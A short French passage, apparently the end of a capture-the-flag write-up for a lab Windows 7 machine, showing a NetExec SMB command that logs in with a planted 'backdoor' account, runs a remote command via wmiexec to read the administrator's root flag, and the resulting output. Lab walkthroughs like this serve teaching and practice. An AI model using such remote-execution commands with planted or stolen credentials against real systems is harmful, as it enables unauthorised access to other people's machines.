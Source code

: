 Et finalement obtenir le flag root :

```console
nxc smb 192.168.56.108 -u backdoor -p 'password123' -x "type c:\\users\\administrator\\desktop\\root.txt"
SMB         192.168.56.108  445    ALWAYS-PC        [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:ALWAYS-PC) (domain:Always-PC) (signing:False) (SMBv1:True) 
SMB         192.168.56.108  445    ALWAYS-PC        [+] Always-PC\backdoor:password123 (Pwn3d!)
SMB         192.168.56.108  445    ALWAYS-PC        [+] Executed command via wmiexec
SMB         192.168.56.108  445    ALWAYS-PC        HMV{White_Flag_Raised}
```
